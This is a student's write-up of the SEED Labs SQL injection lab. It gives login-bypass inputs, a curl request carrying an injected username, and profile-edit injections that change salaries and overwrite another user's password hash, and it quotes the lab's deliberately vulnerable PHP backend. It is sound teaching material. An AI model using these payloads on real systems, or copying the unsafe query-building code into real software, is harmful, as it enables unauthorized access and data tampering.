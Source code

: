 # SQL-Injection-attack-lab

### Task 1:

	Log in MYSQL:
  
//code
```sql

mysql -u root -pseedubuntu

mysql> use Users;
    
mysql> show tables;
    
	Use such a SQL query:

select * from credential where Name='Alice';

```

![Untitled](Pics/task1.png)

### Task 2:

--> Task 2.1

	.USERNAME: "Admin' #"
  
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
  
//code
```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
    
FROM credential
    
WHERE name='Admin' #' && password='xyz'
```
    
--> Task 2.2

	1- Write Code on Terminator in Seed Lab:
  
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
  
	2- Copy the HTML code.
  
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
  
	4. Run this location on browser

![Untitled](Pics/task2.2.png)

--> Task 2.3

	inject statment to append a row to current database:
  
//code

```sql

INSERT INTO credential (name,eid) VALUES('abc', '17422');
  
After row inserted, go to browser and input as:
  
.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('abc','17422') #"
  
.PASSWORD: "" (blank field)
```

![Untitled](Pics/task2.3.png)

(optional lines)

	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
  
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3

EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1

	1- Login as Username= 'Alice' && Password = xyz,
  
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
  
	3- Update Phone Number as ', Salary=1000000 and save.
  
--> Task 3.2

	1- Login as Username= 'Boby' #' and then open edit profile
  
	2- Update Phone Number: ',Salary=0 and remaining unchanges



	Login as Alice
  
		Assume login as Boby and keep Alice login too. Open Alice profile edit
    
	Update Phone Number: ', Salary=1 where name='Boby' #
  
  ![Untitled](Pics/task3.2.png)
  
--> Task 3.3

	We're login as Boby but change password of Alice
  
//backend code


```js
	$conn = getDB();
  
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
  
	if($input_pwd!=''){
		
		// In case password field is not empty.
  
	$hashed_ = sha1($input_pwd);
  
		//Update the password stored in the session.
  
	$_SESSION['pwd']=$hashed_pwd;
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
  
	}else{
  
		// if passowrd field is empty.
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
  
	$conn->query($sql);
  
	$conn->close();
  
	header("Location: unsafe_home.php");
  
	exit();
```
<aside>
	Updation will be on Phone Number field;

	Let Boby password as '123'. We must get SHA1 value of new password via some tool as: c0b656d5e415ca1a8e098a408f913ec229e120b6

	Constuct Phone Number:', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #

	Save it and changes works accordingly. 
</aside>

![Untitled](Pics/task3.3.png)

